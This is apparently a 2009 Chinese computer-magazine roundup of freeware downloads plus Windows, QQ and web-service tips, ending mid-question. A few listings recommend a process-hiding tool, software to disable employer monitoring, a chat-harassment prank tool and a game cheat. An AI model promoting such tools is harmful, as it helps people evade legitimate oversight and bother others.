## P2P网络电视录像专家

以前想录场比赛需要用录像机，现在没这个条件了，于是通过网络电视录制成了一种新的途径。这款软件可以录制PPLive、PPStream、UUSEe等主流P2P网络电视的视频，足够你用。

下载地址：http://work.newhua.com/cfan/200921/P2PRecorder.rar

## Dictionary.NET

说起翻译软件不能说比牛毛还多，但也少不了多少，但Dictionary.NET这款不足80KB的小工具（依托于Google），可以实现多国语言自动翻译（管你哪国语言，机器自动判断翻译需要），并可进行全文、网页翻译。

下载地址：http://fishcodelib.com/files/DictionaryNet.zip

## PDF工具包14合1

有了上面的10合1，这里14合一你也就别吃惊了，这软件可以对PDF进行分割、加/解密、转为图片等操作。

下载地址：http://work.newhua.com/cfan/200921/PDFb.rar

## Tv France英文字体

全是一些电视台的台标字体，你可以任意放大缩小，很酷。

下载地址：http://work.newhua.com/cfan/200921/TvF.rar

## 泡面计时器

2005年就已经开发出来的极品软件，为了我们电脑爱好者的健康，不再吃到糟面条儿，来试试它吧。

下载地址：http://work.newhua.com/cfan/200921/pmjsq.rar

## 漫画集

没有广告，7000多部漫画，还可以订阅最新漫画，并且可以下载，这些都是这款软件可以实现的功能。

## XnView 右键菜单

将XnView的右键菜单加入到右键菜单中；可以快速实现预览图片，格式转换等功能。

下载地址：http://work.newhua.com/cfan/200921/XnViewyj.rar

## QQ 好友群发器

即便是最新版的QQ 2009 SP4也同样可以实现“群发功能”，只是必须要手动添加发送的QQ号。软件关闭后会打开官方主页。

下载地址：http://www.my201.com/03/qqsend/help.htm

## MTV 分享精灵

小编是个五音不全的“麦霸”，为了不影响听众感受，特意找了一些MTV来练习，正好就发现了这款软件。从这里下载的MTV很多和KTV歌厅里的完全一样，完全的拟真环境，练起歌来也能事半功倍。其实这款软件只是利用了“电驴”的换壳版，但用它下载MTV的确要更快更准。

下载地址：http://www.mtvp2p.com/

## 鱼鱼桌面

用来代替Vista侧边栏的小工具，你用到的生活或电脑信息都可以从上面找到，比如天气预报、公交查询、播放器、股票计算器等等。只是目前这款软件虽然功能强大，但也有一些小问题，比如广告较多，部分插件占用资源会大，而且也卸载不干净的问题。但从实用性来看还是一款值得初学者一装的软件。

下载地址：http://www.newhua.com/soft/42557.htm

## HideToolz

号称“万能多开器”，是喜欢打游戏朋友的最爱，它可以隐藏程序进程，这样部分网游和程序就无法通过检测进程名称的方法来识别程序是否已经启动，这样就可以再次开启这些程序来实现多开了。

下载地址：http://work.newhua.com/cfan/200922/HideToolz.rar

## 热键猎手

给闲置的F1到F11重新赋予新的“生命”——让它们可以快速地运行不同的程序。

下载地址：http://work.newhua.com/cfan/200922/hotkey.rar

## reflet

制作图片水纹倒影的软件，把MM或是GG的照片变成倒影能隐藏缺少，让对方看起来更漂亮。可以输出GIF格式的动画，或是JPG、BMP等静态图片。

下载地址：http://work.newhua.com/cfan/200922/Reflet.rar

## 批量图片合并器

能够批量快速将同一文件夹下的同扩展名图片合并在一起，不管是制作相册索引，还是浏览电影的预览图片都是一款不错的小工具。

下载地址：http://work.newhua.com/cfan/200922/tphbqv.rar

## 唐风藏头诗生成器

能生成藏头诗的软件虽然少，但并非没有，这款软件的特别之处在于它可以藏头、藏中和藏尾，但这样一款软件它却有着致命的问题——生成的诗不完整，而且每点击两次就会打开某网站的藏头诗页面，需要用这个页面的功能来生成真正的藏头诗。

下载地址：http://work.newhua.com/cfan/200922/cts.rar

## 宏杰文件夹加密软件

虽然号称是免费的加密软件，但会对浏览器进行劫持，把搜索自动指向百度，建议不要使用。

下载地址：http://www.55tools.com/

## 网络自由行

每次想访问其他网络上的资源时，都会通过各种代理，但每个代理的具体速度是多少又不能确定，于是VPN出现了，它和一般的代理服务器不同，访问它需要用户名和密码，所以速度上更能得到保证。这款软件就是搜索VPN服务器，并算出访问每个VPN服务器的速度，是一款非常不错的软件。只是每次运行软件都会打开软件的主页。

下载地址：http://work.newhua.com/cfan/200922/daili.rar

## OpenCanvas

Photoshop过于专业体积又大，光影魔术手太简单过于傻瓜，OpenCanvas则正是处于两者之间的一款图片处理软件，几乎处理图片的所有功能都可以找到，而且最大的特色功能就是绘画过程录制（在http://www.portalgraphics.net/pg/下，可下到很多画稿的手绘过程文件）。当然软件本身的图片处理功能也足够强大，包括图层在内的Photoshop精华它全部保留。

下载地址：http://work.newhua.com/cfan/200923/OpenCanvas.rar



## 巨盾网游安全盾

巨人网络和网巨盾工作室联合推出的网游安全盾，当史玉柱把触角伸向安全领域的时候，这样的产品会是什么样呢？至少它的功能足够保证主流网游的运转。

下载地址：http://www.ggsafe.com/



## 开心农场计时提醒计算器

这软件从名字就可以看出作用了，它可以算出农作物的收获时间，在你收菜前提醒你，由于不是外挂，所以不会出现降级的危险，自用或讨好MM都是绝佳的工具。当然你也可以自己计算出时间，然后利用QQ的提醒功能来实现同样的功能。另外，对于多季庄稼，“QQ果实成熟提醒器”的方法很容易操作。

下载地址：http://work.newhua.com/cfan/200923/tixing.rar
下载地址：http://work.newhua.com/cfan/200923/TimeAram.rar



## YlmF 系统 DIY

自从“番茄花园”之后，之前的“Windows系统制作组织”也纷纷转型，雨林木风也开始专做其他软件，比如打包的Linux（下载地址：http://tinyurl.com/mlspyo）。这款工具则是专注于挖掘系统本身功能，对系统进行全方位优化，目的就是让你用得更舒心。包括服务的修改，进程管理（使用卡卡上网安全助手），输入法设置（使用IMETool）等等。

下载地址：http://work.newhua.com/cfan/200923/DIYY.rar



## DAEMON Tools Lite

终于完美支持Windows 7了，并且采用了全新的界面，马上换上新装备吧!

下载地址：http://www.disk-tools.com

## 反监视

有些公司会在电脑上安装监控软件，来监控员工的聊天、上网记录，这款软件就是用来屏蔽这些软件的，目前软件支持网路岗、网路警、第三只眼这三款监控软件的。

下载地址：http://work.newhua.com/cfan/200923/UnControl.rar

## 聊天骚扰器

在聊天的时候有骚扰你的吗？想和朋友开玩笑？用这款软件就能帮你完成。

下载地址：http://work.newhua.com/cfan/200923/Itsqr.rar

## 美萍记账通

免费的记账软件通常都是针对个人用户，而这款软件的主要功能是为小企业、门店管理日常现金流水账。

下载地址：http://work.newhua.com/cfan/200923/mpjzt.rar

## QQ 农场盗匪

需要登录QQ号，同时打开软件后，会打开广告页面，号称防降级，但属于外挂类。

下载地址：http://work.newhua.com/cfan/200923/qqncdf.rar

### 如何在浏览器中搜索本机内容？

答：Windows XP系统自带的搜索功能效率比较低，推荐使用Everything（下载地址：http://www.newhua.com/soft/85579.htm），CFan评测它是目前NTFS文件系统下速度最快的搜索软件，体积上百GB的数万个文件，都可在几秒钟之内完成索引。使用它的“启动HTTP服务器”功能，就可以在网页中直接搜索本机的内容。先在软件中启用该功能，打开浏览器在地址栏输入“http://localhost:80”，按下回车就能够新的页面看到Everything的搜索页了。PS：支持中文的搜索和检视，在网页端的速度和效果也不错。

### 不改主题，如何修改关机画面？

答：推荐使用sShutdown（下载地址：http://eng.softq.org/sshutdown.htm）。打开sShutdown，选择Run sShutdown at Windows startup（开机自动运行），点击Save按钮重启系统。右击任务栏中的sShutdown图标，选择Select Skin（选择皮肤），来选择关机对话框的样式。程序自带了五个皮肤，选择喜欢的皮肤，再点Apply（应用）。关机试一下，新的关机对话框是不是出现了？

### 如何让文件无法记录最后的修改时间？

答：的确，NTFS格式会自动把每个文件的最后存取时间记录下来。在“开始→运行”中输入regedit打开注册表编辑器，定位到[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\FileSystem]，单击Ntfsdisablelastacces supdate项，双击右侧的Ntfsdisablelastacces supdate注册表键值，把数值数据从0改为1，再重启电脑，系统就不会记录文件最后的修改时间了。当然，这也会造成快速查找最新添加文件的不便。

### 如何使用WinRAR快速分别压缩多个文件？

答：一般的方法，是右击每一个文件选择“添加到XXX.rar”来压缩。如果文件很多就麻烦了。选中需要压缩的文件并右击，选择“添加到压缩文件…”命令，进入WinRAR“压缩文件名和参数”设置窗口。点击“文件→把每个文件放到单独的压缩文件中”复选框。如果还需压缩其他文件夹内的文件，可点击窗口中的“追加”按钮来选择，此步骤可重复操作，确定后即可开始压缩文件。

### 如何快速转换磁盘的分区格式？

答：在XP系统中，在“开始→运行”中输入“CONVERT X:/FS:NTFS”（X:代表该盘盘符），可以把X盘由FAT格式转化为NTFS格式。

### 怎样在右键菜单中加入背景？

答：先将要加入的图片转换成BMP格式，保存。下载文件ContextBG.dll文件（下载地址：http://xiazai.zol.com.cn/detail/27/265566.shtml），解压压缩包后可得到。然后下载ResHacker绿色版（下载地址：http://www.xdowns.com/soft/softdown.asp?softid=32472），解压缩之后，双击reshacker.exe打开程序。点击“文件→打开”选择ContextBG.dll。点击“位图→129→2057”。点击“操作→替换位图”，在弹出的新窗口打开新位图文件，再点击“替换”，保存为diy.dll文件并放置在C盘根目录下（放在其他目录也可以）。在“开始→运行”中输入regsvr32 c:\bg.dll回车注册成功后，看看右键菜单背景，是不是已经变了？

### 如何快速建立当前窗口的快捷方式？

答：XP系统中，在打开的资源管理器窗口上，将鼠标光标定位到左上角图标处（也就是双击关闭窗口之处），按住左键并移动光标到桌面空白处，就会立刻出现这个快捷方式。

### 如何给Windows 7的右键菜单加上网址？

答：假如想直接右键访问我们的CFan网站：http://www.cfan.com.cn，只要新建记事本并打开，输入：

```
Windows Registry Editor Version 5.00
[HKEY_CLASSES_ROOT\Directory\Background\shell\Win7china]
[HKEY_CLASSES_ROOT\Directory\Background\shell\Win7china\command]
@="iexplore www.cfan.com.cn"
```

另存为Add.reg，双击导入即可。

### 击破伪装文件夹有何诀窍？

答：“超级兔子”之类的程序可以对文件夹进行伪装，譬如变成“控制面板”，原理只不过是调用了注册表的名称。WinRAR大家应该都有，右击怀疑是伪装的文件夹，选择“添加到压缩文件”做成压缩包。然后再双击解开，在压缩包里面将文件重命名，然后再解压出去，击破伪装文件夹的任务完成！

### 如何删除Vista多余的虚拟光驱图标？

答：单击“开始→运行”输入regedit，确定后打开注册表编辑器。依次展开[HKEY_LOCAL_MACHINE\Enum\SCSI]分支。在SCSI子键下通常有两个子键，它们分别对应着虚拟光驱和物理光驱。双击SCSI子键，将右侧多余的项目删除，重新启动电脑后，多余的虚拟光驱图标就会被删除。

### C盘分区时设置多大容量最合适呢？

答：一般来说，占用C盘空间的除了系统目录，主要有：安装软件占用、系统还原占用、虚拟内存的页面文件、休眠内存映像文件等等。C盘大小要足够，太小的话会造成使用过程中的许多麻烦，当然，过大的话也是一种浪费。正常工作时，C盘剩余的可用空间最好不低于3GB。
安装XP系统的话，C盘容量推荐20GB~25GB，Vista/Windows 7推荐30GB~40GB，这只是推荐给普通用户。有些专业人士使用的大型软件，必须安装在C盘，那么容量也需要相应地增加。使用影子系统之类的还原保护软件，需要足够空闲空间，也应该适当增加。所以，要根据自己的使用需求来定制。

### 如何删除文件夹EXE病毒并恢复原来正常文件夹？

答：经常使用闪盘、MP3、MP4等移动设备，有时会发现多出了一个和原文件夹同名的EXE文件，原文件夹消失。其实文件夹并没有被删除，而是被这个同名的病毒隐藏。先删除相应的EXE文件，再打开“我的电脑”，点击菜单栏的“工具→文件夹选项→查看”，按照图片所示操作。
回到闪盘目录，会发现原文件夹出现，右击它选择“属性”后，去除“隐藏”的勾选。如果复选框是灰色的，没有办法勾选，在“开始→运行”中输入cmd回车打开命令提示符，输入attrib -H -S X:\wj /s /d（X代表闪盘盘符，wj是文件夹）后回车，你就发现问题解决了。如果文件夹是中文名称，先更改为英文或数字。


### 不用软件，Vista下怎样快速删除难以删除的文件或文件夹？

答：新建一个记事本，将以下代码输入：

```
DEL /F /A /Q \\?\%1
RD /S /Q \\?\%1
```

另存为BAT批处理文件后，名字随便取。只要将需要删除的文件拖到这个批处理文件上，就可实现快速直接删除，不经过回收站。

### 如何释放Vista SP2安装后占用的空间？

答：安装SP2后，系统默认可以允许回滚到SP1，如果你觉得这个功能不常用，可以删除这些备份文件，获得超过300MB的空间。点击“开始菜单→所有程序→附件”右击“命令提示符”选择“以管理员身份运行”，跳转到C:\Windows\System32目录，运行命令compcln.exe，回答Y并回车，稍等，大概可以删除300MB~500MB左右的文件。之后使用Vista优化大师之类的软件，还可以节约出很多空间。

### 如何在Win PE环境下查杀病毒？

答：网络上有很多PE下可用的绿色杀软，但升级太麻烦，推荐使用江民杀毒2008移动版，升级完成后，安装多个更新文件。进入PE后，进入Windows目录，找到urlmon.dll和shfolder.dll文件，将urlmon.dll复制到江民杀毒2008移动版文件夹的根目录下，将shfolder.dll复制到Kernel目录下。双击运行KVPortable.exe打开程序，勾选目标磁盘或者目录后，点击“扫描目标”进行扫描及查杀。

### 如何更改“发送到……”的位置？

答：在“开始菜单→运行”处输入regedit回车打开注册表编辑器，定位到[HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders]，在右侧窗口中，双击字符串SendTo，将“数值”处输入新的目录路径，比如D:\CFan，记住要把原目录里的文件复制到新的目录。

### Vista下如何在“计算机”中也能存放文件？

答：Vista中，“我的电脑”变成了“计算机”，一般情况下，这个位置是不可以存放文件的，但只要将文件存放到“系统盘:\Users\用户名\AppData\Roaming\Microsoft\Windows\Network Shortcuts”目录下，即可在“计算机”的“网络位置”下显示出来，可以进行删除操作。

### 如何在Vista中用上智能ABC？

答：其实微软并没有把这个剔出，只是集成到了微软拼音2007中。只要调出微软拼音，单击状态栏上微软拼音图标后的一个按钮，选择ABC输入风格，就可以切换到智能ABC输入风格了。但微软拼音占用资源大，有高手制作了智能ABC Vista版，需要运行在具备管理员权限的账户下。

### 如何在文档中快速敲出时间？

答：在使用记事本、EmEditor等常用文档工具时，如果打算输入当前时间，有个快速的方法，就是将光标定位到需要插入时间的位置，按下F5，此时，类似“14:37 2009/7/9”的时间就立即出现了。

### 怎样一次关闭多个IE8进程？

答：在Vista和Windows 7中，有个命令可以实现一次关闭多个进程：taskkill /F /IM <进程名称.exe> /T，那么，要关闭多个IE进程，在“开始菜单→运行”中输入：

```
taskkill /F /IM iexplore.exe
```

回车后即可关闭所有IE8进程。为方便起见，还可创建快捷方式，双击即可生效：桌面点击右键选择“新建→快捷方式”，输入“taskkill.exe /F /IM iexplore.exe /T”，随便选择一个图标后，确定。

### Vista下如何快速方便地多选文件？

答：众所周知，按住Ctrl再单击选择文件，可实现多选，但有些时一不小心会导致前功尽弃。Vista中，在资源管理器的文件夹窗口中，单击“组织→文件夹和搜索选项→查看→高级选项→使用复选框以选择项→确定”，然后，在鼠标经过的文件上会多出一个选择框，将欲选择的文件勾上就可以了。

### Windows 7下如何添加任意文件夹到收藏夹？

答：要添加一个文件夹，在资源管理器中打开它，在左侧导航面板右击“收藏夹”，选择“将当前位置添加到收藏夹”。现在，你就可以在所有“文件→另存为”的对话框中，快速地访问喜欢的文件夹了。

### 如何自定义Win+Tab切换中显示的程序数目？

答：按Win+R打开“运行”输入regedit打开“注册表编辑器”，定位到[HKEY_CURRENT_USER\Control Panel\Desktop\CoolSwitchColumns]键值，双击此键值，在出现的对话框中，填写自己想要的程序数目，确定后退出即可。
ALT+Tab中的行数也是可以自定义的，方法类似：在[HKEY_CURRENT_USER\Control Panel\Desktop\CoolSwitchRows]，将键值修改为自己想要的数目即可。

## 如何让“添加/删除程序”中的隐藏组件现身？

答：打开资源管理器，用记事本打开位于系统分区Windows\inf目录中的sysoc.inf文件，把欲在“添加/删除程序”组件中显示的项目后面的Hide字样删除，这样在“添加/删除Windows组件”中就可以找到它们的身影。比如，要显示Windows Messenger，可以将sysoc.inf文件中的下面一行“msmsgs=msgrocm.dll,OcEntry,msmsgs.inf,hide,7”中的hide去掉。

## 如何实现程序默认保存的路径不是系统分区？

答：安装程序的一般都是在系统分区，多为C盘，每次修改很麻烦。更改方法：在“开始→运行”处输入regedit打开注册表编辑器，展开[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion]，新建字符串键值，命名为CommonFilesDir，“路径”是程序安装的默认路径，如D:\Program Files。但要注意，如此修改后Outlook Express将无法正常使用。

## 如何避免屏保在看电影时出来打扰？

答：禁用方法还是在注册表中实现，展开键[HKEY_CURRENT_USER\Control Panel\Desktop]，新建DWORD键值命名为ScreenSaveActive，将键值修改为0即可。

## 怎么获知孩子何时开电脑，何时关电脑？

答：用系统自带的事件查看器即可。在桌面右击“我的电脑”选择“管理→系统工具→事件查看器→系统”，在事件查看器中，寻找来源为eventlog的事件，双击它，若弹出“事件日志服务已启动”，表示该事件发生的时间是系统启动时间；“事件日志服务已停止”，则表示系统关机时间。

## 如何找出隐藏的“命令行提示符在这里”的功能？

答：Vista下，按住Shift右击目录或驱动器，可以看见几个平时看不到的功能菜单。虽然很方便，但如果经常需要这样做，每次按Shift未免太麻烦了，其实，对注册表修改一下，就可以做到这个功能在右键菜单中永远显示。

打开运行对话框，输入regedit并确定，进入注册表编辑器，打开到[HKEY_CLASSES_ROOT\Directory\shell\cmd]，删除右边的字符串值Extended。接下来，依次对[HKEY_CLASSES_ROOT\Directory\Background\shell\cmd]、[HKEY_CLASSES_ROOT\CLSID\{450D8FBA-AD25-11D0-98A8-0800361B1103}\shell\cmd]、[HKEY_CLASSES_ROOT\Drive\shell\cmd]进行同样的修改。重启电脑即可。

## 如何快速跳转到注册表中的某个位置？

答：每次定位到注册表的某个位置确实是件麻烦事。下载“注册表定位工具”（下载地址：http://work.newhua.com/cfan/200917/regdw.rar）并运行。打开后，在位置栏中输入或粘贴要进入的注册表位置，注意要删除掉键值栏中的内容，点击“跳转”就自动弹出注册表编辑器并定位到所需位置了。

## 如何在Vista桌面上显示或隐藏常用图标？

答：鼠标右击桌面选择“个性化”，在左窗格中单击“更改桌面图标→桌面图标”，勾选打算在桌面上显示的图标的对应复选框，或者清除与不想显示的，然后单击“确定”即可。

## 如何让当前访问的文件夹与其他的区别，以便管理和个性化？

答：首先到网站上下裁好看的图标（如http://www.tucoo.com/），存放后记下路径位置。然后在“开始菜单→运行”处输入Regedit回车打开“注册表编辑器”。依次展开[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Icons]，假设想将当前文件夹的图标设为第四号图标，如果键值4不存在，在右边窗口右击选择“新建→字串值”，命名为4，在“数值数据”中输入图标所在的路径，确定后注销系统重新登录即可。

## 怎样调整系统托盘图标的位置？

答：在XP和Vista这两个系统下，可以借助一款小工具来调整，下载地址为http://work.newhua.com/cfan/200918/taskbar.rar，双击taskbarshuffle.exe打开程序，在“按下以下键时激活托盘图标排列”选择一个键，比如SHIFT，点击“应用”，以后按住SHIFT的同时就可以用鼠标拖动系统托盘图标来调整位置了。而在Windows 7下，就简单了：无需借助工具，直接用鼠标在托盘上重新排序；甚至可以将它们移出以及移回托盘。



## 近日收到客户发送过来的扩展名为DOCX的文档，可是我没有安装Word 2007，怎么打开？

答：可以利用http://www.convertfiles.com/提供的文件在线转换服务解决。登录上述网站后，在Choose a local file（选择本机文件）后点击“浏览”选择docx文档，输入格式选择docx，输出格式选择Office XP，然后输入自己的邮件地址，网站会把docx文档自动转换为doc文档并发到指定邮箱。该网站还支持其他多种文件格式的互换服务。

## 我经常在淘宝上买东西，可是有些商品并没有图片，给我的购买带来不便，有没有看图购物方法？

答：淘宝已经推出看图购物网站，我们只要登录http://tinyurl.com/pzn9be（原网址为淘宝网址，为方便阅读此处作简化处理），然后输入需要购买商品的大类名称，点击搜索后就可以看到商品的图片，而且还可以比价，选择到物美价廉的商品。

## 我使用的是Gmail邮箱，可是近来公司的网速很慢，打开Gmail的界面常常要花很长时间，有没有提速方法？

答：可以使用Gmail邮箱手机的登录界面，访问的时候只需在地址栏输入http://m.gmail.com即可快速访问。Gmail手机版登录界面简洁，支持邮件收发，而且支持访问照片、Word文档和PDF文件等附件。

## 我建了个个人网站，可是网站服务器并不稳定，网站有时无法访问，有没有什么方法可以随时检测自己的网站是否正常？

答：可以借助http://bm.chinaz.com/bm_explain.aspx提供的免费监测服务。登录上述网站注册后，网站就会每隔15-30分钟监测一次我们的网站，如果发现网站挂了，还可以发送邮件通知我们。这样就可以随时知道自己网站的状况了。

## 我使用的是火狐3.0浏览器，在打开多个标签页的时候，常常会由于不小心关闭还没有浏览的页面，有没有什么方法可以打开误关闭的页面？

答：如果发现误关闭的页面，立刻按Ctrl+Shift+T键可以重新打开上次关闭的标签。另外，单击菜单栏的“历史→最近关闭的标签”，可以选择之前打开并被关闭的任意页面。

## 经常要玩韩国游戏，在注册的时候需要一个韩国名字，可是我又不会韩文怎么才可以输入自己喜欢的名字？

答：借助IE即可，打开任意可以输入字符的页面，如百度搜索页面，然后在文本框输入自己想要的中文名字，搜索后点击IE菜单栏的“查看→编码→其他→韩文”，此时页面显示文字就会变成韩文，在搜索框中复制自己的韩文名字到网站注册即可。同样的方法可以获得多个其他语言的名字。

## 平时工作中经常要使用百度搜索，可是每次使用都要打开浏览器，可不可以把搜索集成到桌面？

答：可以利用WEB活动桌面实现。首先登录http://www.baidu.com/search/freecode.html，复制自己喜欢的搜索代码，接着启动记事本新建一个文件，输入下列代码并保存为a.html，最后把这个文件作为自己的活动桌面即可：

```
<html>
<head>
<title>百度搜索</title>
<body>
此处粘贴复制的搜索代码
</body>
</html>
```

## 作为英语爱好者，我经常关注李阳等名人的博客，可是自己工作比较忙，并没有多少时间浏览他们的博客，有没有什么好方法可以及时关注他们的博客动态？

答：可以借助Gmail邮箱来订阅博客RSS。登录自己Gmail邮箱后，新建一个“我的订阅”标签，然后为这个标签创建过滤规则，专门用于收取发件人为no-reply@emailrss.cn（RSS邮天下）的邮件。接着打开http://www.emailrss.cn/，按提示输入订阅博客的RSS地址和自己的Gmail邮箱地址，单击“马上订阅”，然后到Gmail邮箱确认订阅。这样“RSS邮天下”会自动将订阅博客RSS发送到邮箱指定标签，我们只要打开邮箱就可以阅读订阅的博客文章了。

## 心情烦躁的时候经常想在网上找个陌生人聊天，可是QQ聊天室会暴露自己的QQ，有没有什么好的随机聊天室？

答：可以使用“路过的”（http://luguode.com/）提供的陌生人聊天服务。登录上述网站后，点击“找路人甲聊天”，系统会自动连接到一个路过的陌生人开始聊天，屏幕还会显示这个路过的人离我们的距离。如果要结束聊天，关闭聊天页面即可，不会留下任何个人信息。

## 出差在外，我的本本都是使用手机GPRS来挂QQ，可是自己的群很多，群消息浪费大量的流量，怎么才能把群消息全部关闭？

答：QQ可以对群消息进行统一设置。以QQ2009为例，在任意一个群名称后面空白处右击，选择“统一设置群消息→统一设置为阻止一切群消息”即可，省去一个个对群进行设置的麻烦。如果是手机QQ，可以在登录界面勾选“不接受群消息”。

## 在购买一件商品之前我都喜欢多看看产品测评，有没有专门收集多个测评文章的网站？

答：搜评网（http://www.ksou.com.cn/advsearch.htm）可以满足你的需要，只要打开上述网站，然后输入需要搜索的产品，它就可以列出很多专业网站评测链接，而且在右侧提供被搜索产品优缺点比较，可以为我们的选购提供很好的参考。

## 为了能够随时关注自己的博客留言，我经常需要在浏览器中定时刷新页面，有没有自动刷新页面的方法？

答：可以借助http://www.refreshting.com/提供的自动刷新页面服务，登录上述网页后输入自己的博客地址，再在后面输入需要自动刷新的时间，然后点击GO即可在下方自动刷新指定的页面了。

## 为了方便共享，我经常把一些文档放在Google文件服务中，可是在线访问和编辑这些文档并不方便，有没有什么更好的访问方法？

答：可以借助OffiSync（下载地址：https://s3.amazonaws.com/Offisync/setup.exe，运行后还需要在线安装）在本地打开Google在线文档。安装好软件后在Office菜单栏中会多出一项OffiSync菜单，选择这个菜单并点击Account settings（账户设置），设置Google文档账户，然后点击Open url（打开URL）就可以打开Google在线文档，编辑并保存后会自动同步到Google文件服务器上。

## 每次使用火狐自带下载器下载完软件后都要手动关闭，有没有自动关闭的方法？

可以通过编辑火狐配置文件的方法来实现。启动火狐，在浏览器地址栏输入“about:config”（不含引号）并按回车，在弹出的警告窗口中点击“我会小心”，然后在打开的配置页面，双击其中的browser.download.manager.closeWhenDone，将其值设置为true即可。

## 为了让自己的QQ名称可以排在MM的好友列表前面，我在QQ昵称前特意加了一些特殊符号，可是排名还是无法超越QQ会员。怎么才能排得更靠前？

启动QQ2009后，只要点击自己昵称边上的下拉按钮，将自己的状态设置为“我在线上”（或在“QQ昵称”后加空格），就可以在好友列表中排在第一位了。

## 近日想申请一个自己喜欢的域名，可是我不知道这个域名是否被人注册，怎么查询？

找域名（http://findname.cn）为我们提供域名whois信息查询。登录上述网址后只需要输入要查询的域名字符，在下拉提示框中会自动列出所有域名后缀的注册情况（注册与否），点击其中一个就可以看到详细信息，而且它还提供过期域名搜索。

## Firefox 3.0由于安全机制问题无法直接安装迅雷插件，新版迅雷也没有直接支持火狐选项，怎样在火狐中使用迅雷？

可以通过FlashGot插件解决这个问题。启动Firefox后单击“工具→添加组件”，然后搜索FlashGot插件并安装。重启Firefox后单击“工具→组件”就会多出“安装”按钮，单击该按钮就可以选择本地已下载的插件安装了。

## 下载电影我喜欢用迅雷，可是很多BT链接由于种子数少，下载速度很慢，怎样才能找到多的下载链接？

狗狗搜索（http://www.gougou.com）可以按BT类别进行搜索。我们只要打开上述链接，输入搜索影片名后，在下方选择BT，点击搜索后能以种子多少排序，只要选择种子多的链接下载即可。

## 为了便于共享，平时我都是使用Google文档存放一些办公文档。但是这毕竟是在线存贮，我想把上面一些重要文档备份在本机，如何快速下载其中的文件？

可以借助GoogleBackup（下载地址：http://code.google.com/p/gdocbackup/downloads/list）来完成，它可以将Google文件整个下载并导出为微软Office格式保存在本机。启动程序后会自动进入设定页面，切换到Main（主菜单）选项卡，输入Google账号并选择备份的文件夹，最后按下Save（保存）按钮保存Google文件到本机即可。

## 我的QQ有很多群，可是我设置某一个群消息为“接收但不提示”后，不管在哪里登录QQ都是同一设置，有没有个性设置方法？

默认情况下从QQ2008开始，群消息设置是保存在腾讯服务器上的。如果想在不同地方设置不同的提醒方式，打开群后，单击“设置→群消息设置”，在打开的窗口中切换到“群消息提示”，去除右侧“以上设置我要保存在服务器上”的勾选即可。

## 我经常下载各种Firefox插件用于增强浏览器的功能，可是每次只能把下载的插件拖到火狐窗口安装，有没有更好的安装方法？

可以通过修改配置文件的方法为火狐添加安装插件接口。在地址栏输入“about:config”（不含引号），按回车键打开配置窗口，双击其中的“extensions.hideInstallButton”并改变其值为“false”，重启Firefox后单击“工具→添加组件”就会多出“安装”按钮，单击该按钮就可以选择本地已下载的插件安装了。

## 作为路盲，出差到外地最怕的就是找某座大厦或者小区，普通电子地图一点也不直观，有没有更好的地图？

http://www.edushi.com/提供三维电子地图，我们只要选择自己所在的城市，输入要查找的地名，网站就会显示出和当前地形一样的三维地图，非常容易找到目的地。

## 我一般都是使用酷我音乐盒直接播放在线歌曲，可是每次重装系统后都要重新设置酷我播放列表，有没有在线保存列表的方法？

只要我们注册一个酷我用户即可在线保存播放列表。在“网络曲库”左侧窗格打开“我的播放列表”，右击需要在线保存的列表选择“发布”，在打开的酷我页面登录并保存列表即可。以后需要使用该播放列表时，只要登录http://fang.koowo.com，依次点击“我的账户→我创建的歌单”选项即可看到保存的播放列表。

## 平时下载的一些资源，网友经常将其放在国外的一些网盘上，这样经常要打开不同网盘页面去下载，有没有更简洁的访问方法？

FreeRapid Downloader可以让你方便地下载多达80多个国外著名网盘的文件。到http://wordrider.net/freerapid/下载上述软件并运行，在程序界面选择网盘就可以非常方便地下载文件了。软件需要JAVA环境支持，运行前请安装JAVA组件。

## 一直都在用酷我音乐盒在线听歌，有时觉得某首歌曲不错想保存，可是要下载的时候网络又不是很好，但是在酷我中又可以直接播放，是不是歌曲已经保存在本地硬盘了？

如果脱机仍然可以直接在酷我播放，那么歌曲就已经保存在缓存目录中了。酷我默认缓存目录在C:\Documents and Settings\All Users\Application Data\mcache，我们只要打开上述目录，根据“唱片标题”找到自己要保存的歌曲复制到其他位置即可。

## 看到很多QQ2009好友昵称倒过来显示，怎样才可以设置这种个性昵称？

对于使用QQ2009用户，我们只要打开个人资料设置，然后在昵称前加个“⊺”字符，昵称就可以倒过来显示了。比如，“⊺hi”会显示为“ih⊺”。

## 在易趣开了个网店，我经常要和世界各地网友交流，可是语言不通成为我和网友之间交流的最大障碍，有什么好方法？

可以使用http://www.babelwith.me/提供的自动翻译服务。它提供网页聊天功能，并且提供多达45种语言的互译（不过网站仅支持IE7、Firefox 3.0、Safari 4.0），只要让网友和自己一起登录上述网站，然后分别选择自己的母语，开始交流后，聊天记录会以双方语言自动显示在屏幕上，比如你和法语网友交流，聊天记录会显示法语和简体中文翻译。

## 单位的电脑不能安装软件，可是我想在单位BT下载电影，有什么好方法？

可以利用http://www.torrent2exe.com/提供的BT转换工具下载。它可以将Torrent文件生成特有的exe格式的BT下载器，这样无需安装任何软件即可BT。登录上述页面后，选择网络上Torrent文件地址，或者从本地上传种子文件，然后选择Normal Size（普通大小）选项，最后点击Start Download（开始下载），即会下载生成好的下载器，直接运行下载器就可以开始BT了。

## 平时都是使用微软的Skydrive网盘存放文件，有时在网吧上网不想登录自己的网盘，可不可以直接获取文件外链地址，不登录网盘也下载文件？

可以在首次登录自己的网盘后，打开需要获取外链地址的文件。在下载文件页面中间那个文件图标上，右击，然后选择复制快捷方式就是真实的下载地址了。具体地址类似https://g6vla.bay.livefilestore.com/y1pY029A，而不是https://cid-fe43765a737d2d05.skydrive的形式。

## 出于工作需要，我经常要对某热点话题进行网络调查，有没有简易可行的调查工具？

可以使用QQ群邮件调查功能。进入QQ群邮箱后，切换到“调查”，在打开的窗口中就可以设计调查话题，完成后发送，这样QQ群成员都可以收到这个邮件，他们只要打开群邮件即可对调查进行投票。

## 最近淘宝骗子很多，有些骗子的旺旺名片还伪装为皇冠卖家，怎么快速识别这种骗子？

